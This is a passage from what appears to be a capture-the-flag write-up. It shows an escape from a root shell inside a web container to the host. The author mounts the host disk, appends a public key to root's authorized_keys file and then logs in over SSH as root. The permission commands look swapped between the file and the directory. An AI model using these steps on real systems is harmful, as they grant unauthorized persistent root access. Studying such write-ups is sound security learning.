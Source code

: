 We can then `mount` properly:

```
root@5f985fe0caa5:/var/www/html# mount /dev/sda1 /mnt/
root@5f985fe0caa5:/var/www/html# cd /mnt
root@5f985fe0caa5:/mnt# ls
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var
```

Using this, we can write our public key to the `root` user's `.ssh` file:

```bash
cd /mnt/root
mkdir .ssh
echo 'KEY' >> .ssh/authorized_keys
chmod 700 .ssh/authorized_keys
chmod 600 .ssh
```

We can then `ssh` in as `root`:

<figure><img src="../../.gitbook/assets/image (4211).png" alt=""><figcaption></figcaption></figure>

Rooted!
